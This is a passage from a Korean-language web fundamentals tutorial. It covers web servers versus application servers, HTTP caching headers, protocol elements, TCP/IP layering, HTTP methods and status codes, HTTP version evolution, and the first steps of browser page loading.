- **대표 구현체**: **Nginx**, **Apache HTTP Server**, **Microsoft IIS**.

#### 2) 웹 애플리케이션 서버 (WAS: Web Application Server)
- **정의**: HTTP 요청을 처리하되, 사용자의 입력이나 상황에 따라 **동적 컨텐츠(Dynamic Contents)**를 생성하기 위해 프로그램 소스 코드(Java Servlet, Node.js 스크립트, Python 코드 등)를 실행하고 데이터베이스와 트랜잭션을 주고받는 소프트웨어입니다.
- **특징**: **웹 서버 기능 + 웹 컨테이너(Web Container)**의 결합체입니다. 스레드 풀 관리, 세션 관리, 비즈니스 로직 실행 환경을 제공합니다.
- **대표 구현체**: **Apache Tomcat**, **Jeus**, **WildFly**, **Node.js (Express/NestJS)**, **Uvicorn(FastAPI)**.

---

### 3.2 Web Server vs WAS 종합 비교표

| 비교 항목 | 웹 서버 (Web Server) | 웹 애플리케이션 서버 (WAS) |
| :--- | :--- | :--- |
| **주요 역할** | 정적 리소스 서빙, 리버스 프록시, 부하 분산 | 비즈니스 로직 연산, 동적 페이지/JSON API 생성, DB 연동 |
| **처리 데이터** | 정적 파일 (HTML, CSS, JS, JPG, MP4 등) | 동적 결과물 (JSP/Thymeleaf 렌더링, RESTful JSON) |
| **실행 환경** | OS 네이티브 프로세스 기반 비동기 I/O (epoll 등) | 런타임 가상머신 위 컨테이너 (JVM, Node V8 엔진 등) |
| **주요 장점** | 적은 메모리 사용, 초당 대량 동시 요청(C10K) 처리 | 복잡한 도메인 비즈니스 로직 구현 및 데이터 조작 |
| **대표 기술** | Nginx, Apache HTTP Server | Tomcat, Netty, Node.js, Gunicorn |

---

### 3.3 둘을 분리하여 협업시키는 아키텍처적 이유 (Best Practice)

"최신 WAS(예: Tomcat 9+, Node.js)도 정적 파일을 충분히 서비스할 수 있는데, 굳이 복잡하게 Nginx를 앞단에 두는 이유가 무엇일까요?" 현업에서 둘을 분리하는 이유는 명확합니다.

1. **서버 부하 분산 및 역할 분리를 통한 성능 최적화**
   - 단순한 이미지나 CSS 파일을 서빙하는 일에 비싼 WAS의 스레드와 힙 메모리를 소비할 필요가 없습니다. 정적 파일은 Nginx가 정적 캐시와 제로 카피(Zero-Copy: `sendfile`) 시스템 콜을 사용해 초고속으로 털어내고, 무거운 CPU/DB 연산이 필요한 요청만 WAS로 전달합니다.
2. **보안성 대폭 강화 (DMZ와 내부망 분리)**
   - 비즈니스 핵심 로직과 DB 접근 비밀번호를 쥐고 있는 WAS를 공인 IP에 노출시키면 치명적인 해킹 위험에 노출됩니다.
   - 외부망과 맞닿는 DMZ 영역에 Nginx(웹 서버)만 노출하고, WAS는 프라이빗 서브넷(Private Subnet) 내부망에 숨깁니다. 해커가 웹 서버를 뚫더라도 WAS나 DB로 직접 접근할 수 없습니다.
3. **리버스 프록시(Reverse Proxy)와 로드밸런싱(Load Balancing)**
   - 웹 서버 1대가 수많은 WAS 인스턴스(WAS-1, WAS-2, WAS-3...) 앞단에서 트래픽을 균등하게 분배합니다.
   - 특정 WAS가 죽더라도 헬스 체크(Health Check)를 통해 정상 인스턴스로만 트래픽을 우회시킵니다.
4. **무중단 배포 (Zero-Downtime Deployment)**
   - 새로운 버전의 애플리케이션을 배포할 때, Nginx 설정의 업스트림(upstream) 포트만 살짝 전환하는 **블루/그린(Blue-Green)** 배포나 **롤링(Rolling)** 배포를 사용자 체감 중단 없이 구현할 수 있습니다.
5. **SSL/TLS 종단 (SSL Termination)**
   - 복잡하고 CPU를 많이 소모하는 암복호화 핸드셰이크 연산을 앞단의 Web Server가 전담하고, 내부 통신은 가벼운 HTTP로 WAS와 통신하여 WAS의 연산 부담을 덜어줍니다.

---

## 04. 웹 애플리케이션의 캐시
> **브라우저 캐시, CDN, 리버스 프록시 캐시, HTTP 캐시 헤더(Cache-Control, ETag, Last-Modified, 304 Not Modified)**

컴퓨터 과학에서 가장 효과적인 성능 개선 기법은 **"동일한 연산이나 네트워크 전송을 두 번 반복하지 않는 것"**입니다. 캐시(Cache)는 자주 요청되는 데이터를 사용자와 물리적으로 가까운 임시 저장소에 보관하여 응답 지연 시간(Latency)을 단축하고 백엔드 서버의 트래픽 비용을 획기적으로 낮춥니다.

---

### 4.1 계층별 캐시 아키텍처

웹 애플리케이션의 캐시는 클라이언트 브라우저부터 원본 서버(Origin Server)에 이르기까지 다층적으로 배치됩니다.

```
[클라이언트 브라우저] ────> [ CDN 엣지 서버 ] ────> [ 리버스 프록시 (Nginx) ] ────> [ 원본 서버 (WAS) ]
  • 메모리 / 디스크 캐시     • Cloudflare / AWS       • Nginx / Varnish Cache         • 로컬 인메모리 캐시
  • 개인화 캐시 (Private)    • 지리적 지연 단축        • 서버 부하 원천 차단            • Redis / DB 쿼리 캐시
```

1. **브라우저 캐시 (Browser Cache)**
   - 사용자 PC의 RAM(메모리 캐시)이나 로컬 SSD(디스크 캐시)에 정적 자원을 저장합니다. 네트워크 전송 자체가 발생하지 않으므로 응답 시간이 **0ms (`from disk cache` / `from memory cache`)**에 수렴합니다.
2. **CDN (Content Delivery Network)**
   - 전 세계 수백 개 거점(PoP: Point of Presence)에 분산 설치된 엣지(Edge) 서버입니다. 한국에 있는 사용자가 미국 오리진 서버의 이미지를 요청할 때, 지리적으로 가까운 서울 리전 CDN 노드에서 즉시 데이터를 수취합니다.
3. **리버스 프록시 캐시 (Reverse Proxy Cache)**
   - 웹 서버(Nginx, Varnish) 계층에서 동일한 API 응답이나 HTML 조각을 메모리에 캐싱하여, 수만 명의 사용자가 같은 페이지를 요청해도 WAS가 DB 쿼리를 단 한 번만 실행하도록 보호합니다.

---

### 4.2 HTTP 캐시 제어 헤더: 만료(Freshness)와 유효성 검증(Validation)

HTTP 프로토콜은 헤더를 통해 캐시를 매우 정교하게 통제합니다. 핵심은 **"이 데이터가 아직 신선한가?(Fresh)"**와 **"상했는지 원본 서버에 물어볼 것인가?(Validate)"**입니다.

#### 1) 신선도 제어의 핵심: `Cache-Control`
과거 HTTP/1.0에서는 `Expires: Wed, 21 Oct 2026 07:28:00 GMT`와 같은 절대 시간을 사용했으나, 클라이언트와 서버의 시스템 시계가 다를 경우 오작동하는 치명적인 단점이 있었습니다. HTTP/1.1은 상대적 수명을 명시하는 `Cache-Control`을 표준으로 채택했습니다.

- `Cache-Control: max-age=3600`: 앞으로 3600초(1시간) 동안은 원본 서버에 묻지 않고 캐시된 사본을 그대로 사용합니다.
- `Cache-Control: no-cache`: **"캐시를 저장하지 말라"는 뜻이 절대 아닙니다!** 캐시를 디스크에 저장하되, **사용하기 전에 반드시 원본 서버에 가서 데이터가 바뀌었는지 유효성 검증(Validation)을 받으라**는 강력한 지시어입니다.
- `Cache-Control: no-store`: 캐시를 메모리나 디스크 등 그 어떤 저장소에도 **절대 저장하지 말라**(민감한 금융/개인정보에 필수).
- `Cache-Control: public`: 브라우저뿐 아니라 중간의 CDN, 프록시 서버 등 모든 공유 캐시에 저장 가능합니다.
- `Cache-Control: private`: 오직 최종 사용자의 단말(브라우저)에만 캐싱해야 하며, 중간 프록시(CDN)는 캐싱할 수 없습니다.

---

### 4.3 조건부 요청과 304 Not Modified의 작동 메커니즘

캐시의 유효 기간(max-age)이 지났거나 `no-cache`가 선언되어 있을 때, 브라우저는 원본 서버에 **"내가 가진 캐시가 여전히 유효한가요?"**를 묻는 **조건부 요청(Conditional Request)**을 보냅니다.

```mermaid
sequenceDiagram
    autonumber
    actor C as 브라우저 (Browser)
    participant S as 원본 서버 (Origin Server)

    Note over C,S: [첫 번째 요청: 캐시 저장]
    C->>S: GET /logo.png
    S-->>C: 200 OK (Body: 5MB 이미지 데이터)<br/>ETag: "v1.2.3"<br/>Last-Modified: Sun, 20 Sep 2026 10:00:00 GMT

    Note over C: 캐시에 이미지 및 ETag/Last-Modified 저장

    Note over C,S: [두 번째 요청: max-age 만료 후 조건부 요청]
    C->>S: GET /logo.png<br/>If-None-Match: "v1.2.3"<br/>If-Modified-Since: Sun, 20 Sep 2026 10:00:00 GMT

    alt 데이터가 변경되지 않은 경우 (Cache Hit)
        Note over S: 해시값 비교 -> 일치 확인! 본문 재전송 불필요
        S-->>C: 304 Not Modified (Body 없음!)
        Note over C: 기존 캐시 자원을 재활용하여 렌더링
    else 데이터가 변경된 경우 (Cache Miss)
        Note over S: 파일 수정 확인 -> 새 데이터 생성
        S-->>C: 200 OK (Body: 새로운 5MB 이미지 데이터)<br/>ETag: "v1.2.4"
    end
```

#### 두 가지 검증 헤더 쌍
1. **시간 기반 검증**: `Last-Modified` (서버) <-> `If-Modified-Since` (클라이언트)
   - 파일의 마지막 수정 시각(초 단위)을 비교합니다. 1초 미만의 미세한 수정이나 내용 변경 없이 타임스탬프만 바뀐 경우 불필요한 재전송이 일어날 수 있는 한계가 있습니다.
2. **콘텐츠 해시 기반 검증**: `ETag` (서버) <-> `If-None-Match` (클라이언트)
   - 리소스 내용물의 고유 해시값(Checksum)을 비교합니다. 내용이 1바이트라도 바뀌지 않았다면 시각과 무관하게 완벽한 동일성을 보장하므로 훨씬 정확합니다.

> **304 Not Modified의 마법**: 응답 바디(Payload)가 완전히 비어 있으므로, 5MB짜리 무거운 이미지 파일이라 할지라도 단 수백 바이트의 헤더 패킷만 오가며 즉시 화면에 렌더링됩니다.

---

## 05. 프로토콜이란 무엇인가요?
> **네트워크 통신 규약, 구문(Syntax), 의미(Semantics), 타이밍(Timing) 3요소, 프로토콜의 필연성**

현실 세계에서 한국인과 프랑스인이 아무런 사전 약속 없이 만나 각자의 모국어로 동시에 말을 쏟아낸다면 소통은 완전히 실패할 것입니다. 컴퓨터의 세계도 완전히 동일합니다. 미국에서 제작된 인텔 CPU 기반의 Windows PC와 한국에서 제작된 ARM 기반의 안드로이드 스마트폰이 대화할 수 있는 유일한 이유는, 둘 사이에 미리 정교하게 정의된 **"소통의 규칙"**이 존재하기 때문입니다.  

이 통신 규칙을 우리는 **프로토콜(Protocol: 통신 규약)**이라고 부릅니다.

---

### 5.1 프로토콜의 3대 핵심 요소

국제 표준화 기구에서는 프로토콜을 성립시키는 3대 필수 요소를 다음과 같이 정의합니다.

```
       ┌────────────────────────────────────────────────────────┐
       │                 프로토콜의 3대 핵심 요소                │
       └────────────────────────────────────────────────────────┘
              │                     │                    │
              ▼                     ▼                    ▼
     [ 구문 (Syntax) ]     [ 의미 (Semantics) ]   [ 타이밍 (Timing) ]
     데이터의 구조와 포맷     제어 비트와 에러 처리    송수신 속도 조절과 순서
```

#### 1) 구문 (Syntax : 데이터의 형식과 구조)
- **무엇을 어떤 모양으로 담을 것인가?**
- 데이터의 비트 배열 순서, 패킷 헤더의 크기, 필드의 위치, 문자 인코딩(UTF-8, ASCII 등) 방식을 정의합니다.
- *예시*: "앞의 32비트는 출발지 IP 주소이고, 뒤의 16비트는 포트 번호이며, 데이터의 끝은 줄바꿈 문자(`\r\n\r\n`)로 구분한다."

#### 2) 의미 (Semantics : 정보의 뜻과 제어 규약)
- **그 비트와 단어가 무엇을 뜻하며, 어떻게 행동해야 하는가?**
- 특정 필드의 값이 들어왔을 때 수행해야 할 동작, 제어 정보의 해석, 오류 발생 시의 처리 절차를 규정합니다.
- *예시*: "HTTP 요청 메서드가 `GET`이면 자원을 조회하여 반환하고, 상태 코드가 `404`이면 리소스가 존재하지 않음을 사용자에게 표시하며, TCP 헤더의 `SYN` 비트가 1이면 연결 요청으로 인식한다."

#### 3) 타이밍 (Timing : 속도와 순서의 조율)
- **언제 보내고, 얼마나 빨리 보내며, 순서가 꼬이면 어떻게 해결하는가?**
- 통신 양단 간의 송수신 속도 차이를 조절하는 **흐름 제어(Flow Control)**, 네트워크 혼잡을 회피하는 **혼잡 제어(Congestion Control)**, 패킷 전송 순서와 타임아웃(Timeout) 재전송 기준을 정의합니다.
- *예시*: "수신 버퍼가 가득 차면 윈도우 크기를 0으로 보내 송신을 멈추게 하고, 패킷을 보낸 지 200ms 동안 ACK가 오지 않으면 패킷 유실로 판단하여 재전송한다."

---

### 5.2 프로토콜이 없으면 컴퓨터가 대화하지 못하는 이유

만약 전 세계 컴퓨터 사이에 표준화된 프로토콜이 없다면 어떤 비극이 일어날까요?

1. **엔디안(Endianness) 불일치로 인한 데이터 오염**
   - 어떤 CPU는 숫자를 메모리에 저장할 때 상위 바이트부터 쓰는 **빅 엔디안(Big-Endian)**을 쓰고, 인텔 x86 CPU는 하위 바이트부터 쓰는 **리틀 엔디안(Little-Endian)**을 씁니다. 프로토콜이 "네트워크를 통과할 때는 무조건 빅 엔디안(네트워크 바이트 오더)으로 통일한다"고 강제하지 않는다면, 숫자 `1`을 보냈는데 상대방은 `16,777,216`으로 해석하는 참사가 벌어집니다.
2. **데이터의 경계(Boundary) 분간 불가**
   - 연속된 전기 신호가 흘러들어올 때, 어디서부터 어디까지가 헤더이고 어디부터가 본문 데이터인지 알 수 없습니다.
3. **표준화 기구와 RFC(Request for Comments) 문서의 위대함**
   - **IETF(Internet Engineering Task Force)**, **W3C**, **IEEE**와 같은 비영리 표준화 기구는 누구나 자유롭게 구현할 수 있도록 모든 인터넷 프로토콜을 **RFC 문서**라는 상세한 공개 기술 명세서로 배포합니다. 덕분에 애플, 마이크로소프트, 구글이 만든 제각각의 장비와 소프트웨어가 완벽하게 서로 맞물려 통신할 수 있는 것입니다.

---

## 06. TCP/IP vs HTTP
> **OSI 7계층과 TCP/IP 4계층, 전송 계층(TCP/UDP)과 응용 계층(HTTP), 데이터 캡슐화와 역캡슐화**

네트워크를 공부할 때 가장 흔하게 겪는 혼란 중 하나는 "TCP/IP와 HTTP는 대체 무슨 관계인가?"라는 의문입니다. 결론부터 말하자면, 둘은 대립하거나 경쟁하는 기술이 아니라 **서로 다른 층(Layer)에 위치하며 완벽하게 위아래로 협력하는 관계**입니다.

---

### 6.1 네트워크 계층 모델: OSI 7계층 vs TCP/IP 4계층

네트워크는 복잡한 하드웨어와 소프트웨어를 역할별로 모듈화하기 위해 계층화(Layering) 아키텍처를 도입했습니다.

```
       [ OSI 7 Layer ]                    [ TCP/IP 4 Layer ]              [ 프로토콜 & 장비 ]
  7. 응용 계층 (Application)     ┐
  6. 표현 계층 (Presentation)    ├─>   4. 응용 계층 (Application)       HTTP, DNS, SSH, FTP, TLS
  5. 세션 계층 (Session)         ┘
  4. 전송 계층 (Transport)       ──>   3. 전송 계층 (Transport)         TCP, UDP (Port 번호)
  3. 네트워크 계층 (Network)     ──>   2. 인터넷 계층 (Internet)        IP, ICMP, 라우터 (Router)
  2. 데이터 링크 (Data Link)     ┐
  1. 물리 계층 (Physical)        ┘─>   1. 네트워크 인터페이스           이더넷, Wi-Fi, L2 스위치, 케이블
```

- **계층화의 이점**: 각 계층은 오직 자신의 책임만 수행하며 하위 계층의 내부 구현을 알 필요가 없습니다. 웹 개발자가 HTTP 코드를 짤 때 광케이블의 신호 왜곡을 고민할 필요가 없고, 유선 랜선을 Wi-Fi로 바꾸더라도 브라우저 코드나 HTTP 스펙을 한 줄도 수정할 필요가 없습니다.

---

### 6.2 전송 계층의 두 거인: TCP vs UDP

TCP/IP 모델의 전송 계층(Transport Layer)은 **"프로세스와 프로세스 간의 신뢰성 또는 전송 방식(Port to Port)"**을 책임집니다. 여기에는 정반대의 철학을 가진 두 개의 거대한 기둥이 존재합니다.

```
                  ┌──────────────────────────────────────────┐
                  │          전송 계층 (Transport)           │
                  └──────────────────────────────────────────┘
                        │                              │
                        ▼                              ▼
             [ TCP : 신뢰성의 수호자 ]       [ UDP : 속도의 지배자 ]
             • 연결 지향 (Connection)       • 비연결형 (Connectionless)
             • 손실 시 100% 재전송          • 손실 감수, 빠른 송출
             • 순서 보장 (Seq/Ack)          • 순서 무관
             • 흐름 제어, 혼잡 제어          • 오버헤드 극소화 (8바이트 헤더)
```

| 비교 항목 | TCP (Transmission Control Protocol) | UDP (User Datagram Protocol) |
| :--- | :--- | :--- |
| **연결 방식** | 연결 지향적 (3-Way Handshake 수립 후 통신) | 비연결형 (사전 연결 없이 목적지로 즉각 패킷 방출) |
| **신뢰성 보장** | **100% 보장** (패킷 손실 시 재전송, 체크섬 검증) | **비보장** (도착 여부 확인 안 함, Best-Effort) |
| **전송 순서** | **엄격하게 순서 보장** (수신측 재조립) | **순서 보장 없음** (도착하는 대로 수신) |
| **제어 기능** | **흐름 제어**(슬라이딩 윈도우), **혼잡 제어**(혼잡 회피) | **제어 기능 없음** (응용 프로그램이 알아서 처리) |
| **헤더 크기** | 기본 20바이트 ~ 최대 60바이트 (무거움) | 고정 8바이트 (초경량) |
| **주요 용도** | 웹 서핑(HTTP/1.1, HTTP/2), 이메일, 파일 전송(FTP) | 실시간 스트리밍(YouTube 라이브), 온라인 게임, DNS, HTTP/3 |

---

### 6.3 응용 계층(HTTP)과 전송 계층(TCP)의 비유적 관계

> **"HTTP는 택배 상자 안에 들어 있는 편지이고, TCP/IP는 그 상자를 파손 없이 목적지 방 호수까지 안전하게 배송해 주는 글로벌 택배 물류 시스템입니다."**

- **HTTP**: "무엇을 요청하고 무엇을 응답할 것인가?"를 규정하는 응용 계층의 텍스트/바이너리 메시지 규약입니다.
- **TCP**: "그 HTTP 메시지를 쪼개서 분실되지 않게 끝까지 책임지고 온전한 순서로 상대방에게 도달시킬 것인가?"를 보장하는 하위 운송 계층입니다.

---

### 6.4 데이터 캡슐화(Encapsulation)와 역캡슐화(Decapsulation)

클라이언트가 HTTP 요청을 만들어 전송하면, 데이터는 스택을 타고 내려가며 각 계층의 헤더가 차례대로 덧붙는 **캡슐화(Encapsulation)**를 겪습니다. 수신 측 서버는 정반대로 헤더를 하나씩 벗겨내는 **역캡슐화(Decapsulation)**를 수행합니다.

```
[송신측 : 캡슐화 (Encapsulation)]                           [수신측 : 역캡슐화 (Decapsulation)]

 응용 계층        [ HTTP Request Message ]                     응용 계층        [ HTTP Request Message ]
                          │ (데이터 전달)                                               ▲ (본문 복원)
 전송 계층    [TCP 헤더] [ HTTP Request Message ]              전송 계층    [TCP 헤더] [ HTTP Request Message ]
                          │ (세그먼트 분할)                                             ▲ (포트 번호 확인)
 인터넷 계층 [IP 헤더] [TCP] [ HTTP Message ]                 인터넷 계층 [IP 헤더] [TCP] [ HTTP Message ]
                          │ (패킷화)                                                    ▲ (IP 주소 라우팅)
 링크 계층  [이더넷 헤더] [IP] [TCP] [HTTP] [트레일러(FCS)]      링크 계층  [이더넷 헤더] [IP] [TCP] [HTTP] [FCS]
                          │ (프레임화)                                                  ▲ (MAC 주소 확인/에러 체크)
 물리 계층        010110001010110101010010 (전기/광 신호) ───────────────> 물리 계층
```

- 각 계층마다 추가되는 핵심 제어 정보:
  - **TCP 헤더**: 출발지/목적지 **포트 번호(Port)**, Sequence Number, Acknowledgment Number, 플래그 비트.
  - **IP 헤더**: 출발지/목적지 **IP 주소**, TTL(Time To Live).
  - **이더넷 헤더**: 출발지/목적지 물리적 **MAC 주소**, 프레임 에러 체크를 위한 FCS(Frame Check Sequence).

---

## 07. HTTP는 무엇인가요?
> **무상태(Stateless)와 비연결성(Connectionless), HTTP 메서드와 상태 코드, HTTP/1.1 vs HTTP/2 vs HTTP/3**

HTTP(HyperText Transfer Protocol)는 오늘날 전 세계 웹을 지탱하는 가장 성공적이고 보편적인 응용 프로토콜입니다. 1990년대 초 팀 버너스리(Tim Berners-Lee)에 의해 단순한 텍스트 문서를 주고받는 목적으로 탄생했으나, 현재는 HTML뿐 아니라 이미지, 비디오, JSON API 데이터, 양방향 스트리밍까지 디지털 세상의 모든 정보를 실어나르는 만능 고속도로가 되었습니다.

---

### 7.1 HTTP의 두 가지 핵심 아키텍처 철학

HTTP 프로토콜을 이해하는 핵심 키워드는 **무상태(Stateless)**와 **비연결성(Connectionless)**입니다.

#### 1) 무상태성 (Stateless)
- **개념**: 서버는 클라이언트의 이전 요청이나 상태를 절대 기억(저장)하지 않습니다. 모든 요청은 독립적이며, 그 자체로 처리에 필요한 모든 정보를 온전히 담고 있어야 합니다.
- **장점**: **서버의 수평적 확장(Scale-out)이 극도로 용이**합니다. 이전 요청을 1번 서버가 처리했더라도, 다음 요청을 2번, 100번 서버가 받아도 아무런 문제가 없습니다. 서버가 다운되어도 세션 복구 비용이 없습니다.
- **단점**: 사용자가 로그인한 상태라는 사실조차 매 요청마다 증명해야 하므로 전송 데이터양이 늘어납니다. (이를 극복하기 위해 뒤에서 다룰 **쿠키, 세션, JWT**가 탄생했습니다.)

#### 2) 비연결성 (Connectionless)
- **개념**: 클라이언트가 요청을 보내고 서버가 응답을 마치면, 그 즉시 둘 사이의 TCP 연결을 끊어버리는 방식입니다.
- **장점**: 서버가 수만 명의 사용자와 상시 연결을 유지할 필요가 없으므로 서버 자원(소켓, 메모리)을 획기적으로 아낄 수 있습니다.
- **단점**: 웹 페이지 하나를 로딩할 때 수십 개의 이미지와 스크립트를 받아야 하는데, 그때마다 매번 3-Way Handshake를 반복해야 하므로 심각한 지연 시간(Runtrip Time)이 발생합니다.
  - *극복*: HTTP/1.1부터는 `Connection: keep-alive` 헤더를 기본(default)으로 적용하여, 한 번 수립한 TCP 연결을 일정 시간 동안 닫지 않고 재사용할 수 있도록 개선했습니다.

---

### 7.2 HTTP 요청 메서드와 멱등성 (Idempotence)

클라이언트는 서버에게 자신이 수행하고자 하는 의도를 **HTTP 메서드**를 통해 선언합니다.

| 메서드 | 의미 | CRUD 매핑 | 안전성 (Safe) | 멱등성 (Idempotent) |
| :--- | :--- | :--- | :---: | :---: |
| **GET** | 리소스 조회 | Read | **O** (서버 상태 변경 안 함) | **O** (100번 호출해도 동일) |
| **POST** | 새 리소스 생성, 프로세스 처리 | Create | X (서버 상태 생성) | **X** (호출마다 새 결제/글 생성) |
| **PUT** | 리소스 전체 대체 (없으면 생성) | Update (전체) | X | **O** (동일 데이터로 덮어씀) |
| **PATCH** | 리소스의 일부 속성만 수정 | Update (부분) | X | **X / O** (구현에 따라 다름) |
| **DELETE** | 리소스 삭제 | Delete | X | **O** (이미 삭제된 상태 유지) |
| **OPTIONS** | 대상 리소스가 지원하는 메서드 질의 (CORS 사전 요청) | - | **O** | **O** |

> **용어 정리**:
> - **안전성(Safe)**: 호출해도 대상 리소스의 상태가 전혀 변경되지 않는 특성.
> - **멱등성(Idempotent)**: 동일한 요청을 한 번 보내든, 네트워크 오류로 인해 연속해서 백 번을 보내든 **서버의 최종 상태와 결과가 항상 동일함을 보장하는 특성**. API 설계 시 멱등성 보장은 분산 환경의 재시도(Retry) 안정성을 위해 필수적입니다.

---

### 7.3 HTTP 상태 코드 (Status Code) 체계

서버는 클라이언트의 요청에 대한 처리 결과를 3자리 숫자로 이루어진 상태 코드로 명확히 회신합니다.

```
  1xx (Informational) : 요청을 받았으며 작업을 계속 진행 중임 (101 Switching Protocols 등)
  2xx (Success)       : 클라이언트의 요청이 성공적으로 접수되고 처리됨
  3xx (Redirection)   : 요청을 완료하기 위해 클라이언트의 추가 조치(페이지 이동 등)가 필요함
  4xx (Client Error)  : 클라이언트의 잘못된 문법, 유효하지 않은 파라미터, 권한 부족 등의 오류
  5xx (Server Error)  : 클라이언트 요청은 정상이지만, 서버 내부 연산 중 예외가 발생함
```

#### 실무 핵심 상태 코드 10선
1. **`200 OK`**: 성공적으로 조회 또는 처리됨.
2. **`201 Created`**: POST 요청에 의해 새로운 리소스가 서버에 성공적으로 생성됨 (`Location` 헤더 동반).
3. **`204 No Content`**: 작업은 성공했으나 응답 본문(Body)에 담아 보낼 데이터가 없음 (삭제 성공 등).
4. **`301 Moved Permanently`**: 리소스의 URI가 영구적으로 이동됨 (브라우저는 새 URL을 캐싱).
5. **`304 Not Modified`**: 조건부 GET 요청 시, 캐시가 유효하므로 본문 없이 기존 캐시를 쓰라고 지시.
6. **`400 Bad Request`**: 클라이언트가 필수 파라미터를 누락했거나 잘못된 JSON 형식을 보냄.
7. **`401 Unauthorized`**: 인증(Authentication)이 되지 않은 상태 (로그인 필요).
8. **`403 Forbidden`**: 인증은 되었으나, 해당 리소스에 접근할 권한(Authorization)이 없음.
9. **`404 Not Found`**: 요청한 URI에 해당하는 자원이 서버에 존재하지 않음.
10. **`500 Internal Server Error`**: 서버 코드 내에서 처리되지 않은 NullPointerException 등 런타임 에러 발생.

---

### 7.4 HTTP의 눈부신 진화: HTTP/1.1 vs HTTP/2 vs HTTP/3

웹 환경이 단순한 문서 뷰어에서 수백 개의 리소스(JS 모듈, 고화질 이미지, 폰트)를 동시에 로딩하는 무거운 웹 애플리케이션으로 진화하면서, HTTP 역시 지연 시간을 줄이기 위해 극적으로 진화해 왔습니다.

```mermaid
timeline
    title HTTP 프로토콜의 진화 역사
    1999 : HTTP/1.1 : 지속 연결(Keep-Alive), 파이프라이닝 시도, 텍스트 기반, HOLB 문제 발생
    2015 : HTTP/2 : Binary Framing, 단일 TCP 연결 내 Multiplexing, HPACK 헤더 압축, Server Push
    2020 : HTTP/3 : TCP 탈피 -> UDP 기반 QUIC 프로토콜 채택, 0-RTT 연결, 패킷 레벨 HOLB 완전 극복
```

```
[HTTP/1.1 : 순차적 전송]
 TCP Conn 1: [---Request 1---]====>[---Response 1---] [---Request 2---]====>[---Response 2---]
 (앞의 응답이 지연되면 뒤의 모든 요청이 멈춤 : Head-Of-Line Blocking)

[HTTP/2 : 단일 TCP 멀티플렉싱]
 TCP Conn 1: [ Req1 조각 ][ Req2 조각 ][ Res1 조각 ][ Req3 조각 ][ Res2 조각 ] (뒤섞여 동시 스트리밍)

[HTTP/3 : UDP/QUIC 독립 스트림]
 UDP/QUIC  : Stream 1 (손실 시 1번만 재전송) ─┐
             Stream 2 (손실과 무관하게 독립 재생) ── 서로 간섭 제로!
```

#### 버전별 핵심 메커니즘 심층 비교
1. **HTTP/1.1의 병목: HOLB (Head-Of-Line Blocking)**
   - 텍스트 평문 기반 프로토콜입니다. 한 TCP 연결에서는 앞선 요청의 응답이 완전히 끝날 때까지 다음 응답을 보낼 수 없었습니다. 앞선 응답이 10초 동안 멈추면 뒤의 모든 데이터가 줄줄이 지연되는 현상(HOLB)이 발생했습니다.
   - 브라우저들은 이를 우회하기 위해 도메인당 6개의 TCP 연결을 억지로 뚫어 병렬 다운로드를 시도했습니다.
2. **HTTP/2의 혁신: 바이너리 프레이밍과 다중화 (Multiplexing)**
   - 텍스트 대신 **바이너리 프레임(Binary Frame)** 단위로 메시지를 쪼갰습니다.
   - **다중화(Multiplexing)**: 단 하나의 TCP 연결 안에서 수백 개의 요청과 응답 프레임을 ID별로 뒤섞어 동시에 전송합니다. 순서가 뒤엉켜도 수신 측에서 ID를 보고 완벽히 재조립합니다. HOLB를 크게 완화했습니다.
   - **HPACK 헤더 압축**: 중복 전송되던 무거운 쿠키와 User-Agent 헤더를 허프만 코딩과 정적/동적 테이블을 사용해 80% 이상 압축했습니다.
   - *남아있는 한계*: 응용 계층의 HOLB는 해결했으나, **밑바닥 전송 계층인 TCP 자체의 패킷 손실**이 발생하면 TCP는 패킷 순서를 맞추기 위해 모든 스트림을 정지시킵니다(TCP 수준의 HOLB).
3. **HTTP/3의 종착지: UDP 기반의 QUIC 프로토콜**
   - 30년간 써오던 TCP를 과감하게 버리고, 신뢰성 제어를 개발자가 자유롭게 커스터마이징할 수 있는 **UDP** 위에 **QUIC(Quick UDP Internet Connections)** 프로토콜을 올렸습니다.
   - **독립 스트림**: 패킷이 손실되어도 해당 패킷이 속한 특정 스트림만 일시 정지될 뿐, 나머지 다른 수십 개의 스트림은 아무런 간섭 없이 최고 속도로 렌더링됩니다(완벽한 패킷 레벨 HOLB 극복).
   - **초고속 연결 (0-RTT / 1-RTT)**: TCP 핸드셰이크와 TLS 암호화 핸드셰이크를 하나로 합쳐, 연결 수립과 동시에 첫 데이터를 보낼 수 있습니다.
   - **네트워크 마이그레이션**: 와이파이를 끄고 LTE/5G로 전환되어 IP 주소가 바뀌어도, QUIC Connection ID를 기반으로 기존 다운로드가 끊김 없이 즉시 이어집니다.

---

## 08. 브라우저에 화면이 뜨기까지, 어떤 과정을 거치나요?
> **주소창 입력부터 렌더링 엔진 파이프라인(DOM/CSSOM -> Render Tree -> Layout -> Paint -> Composite)의 모든 것**

"브라우저 주소창에 `https://www.google.com`을 입력하고 엔터를 쳤을 때 화면이 나타나기까지 무슨 일이 일어나는가?"는 컴퓨터 공학의 모든 기초 지식(네트워크, OS, 알고리즘, 그래픽스)을 관통하는 개발자 면접의 가장 클래식하면서도 심오한 질문입니다. 전체 과정을 네트워크와 렌더링 파이프라인의 두 단계로 나누어 상세히 추적해 봅니다.

---

### 8.1 전체 흐름의 큰 그림

```mermaid
flowchart TD
    A[1. URL 입력 및 파싱] --> B[2. HSTS 확인 및 캐시 조회]
    B --> C[3. DNS 쿼리: IP 주소 획득]
    C --> D[4. TCP 3-Way Handshake 연결]
    D --> E[5. TLS 암호화 핸드셰이크]
    E --> F[6. HTTP Request 전송]
    F --> G[7. 서버 처리 및 Response 수신]
    G --> H[8. 브라우저 렌더링 엔진 파이프라인 가동]
```

#### [Phase 1] 네트워크 통신 단계
1. **URL 파싱 및 프로토콜 결정**: 브라우저는 입력된 문자열이 검색어인지 URL인지 식별하고, 스키마(`https://`)가 없으면 기본값을 부여합니다.
2. **HSTS(HTTP Strict Transport Security) 확인**: 브라우저의 사전 등록 목록(Preload List)을 확인하여 강제로 HTTPS로 업그레이드합니다.
3. **DNS 질의**: 브라우저 캐시 -> OS 캐시 -> Hosts 파일 -> 로컬 DNS 리졸버를 거쳐 도메인의 최종 목적지 IPv4/IPv6 주소를 획득합니다.
4. **TCP 3-Way Handshake**: 획득한 IP의 443 포트로 SYN, SYN-ACK, ACK 패킷을 교환하여 가상 연결을 맺습니다.
5. **TLS Handshake (보안 연결)**: 대칭키를 안전하게 교환하기 위한 비대칭 암호화 키 교환과 서버 인증서 신뢰성 검증을 거쳐 보안 세션을 수립합니다.
